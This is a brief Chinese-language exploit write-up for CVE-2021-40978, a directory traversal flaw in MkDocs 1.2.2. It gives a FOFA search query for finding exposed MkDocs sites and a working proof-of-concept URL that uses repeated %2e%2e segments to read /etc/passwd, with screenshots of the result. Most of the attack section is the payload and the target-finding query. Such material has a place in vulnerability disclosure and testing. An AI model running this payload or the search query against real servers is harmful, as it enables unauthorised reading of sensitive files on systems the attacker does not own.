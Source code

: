 # MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

```
Mkdocs 1.2.2
```

## FOFA

```
title="My Docs"
```

## 漏洞复现

主页面

![image-20220524152422662](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241524715.png)

验证POC

```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220524152444205](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241524264.png)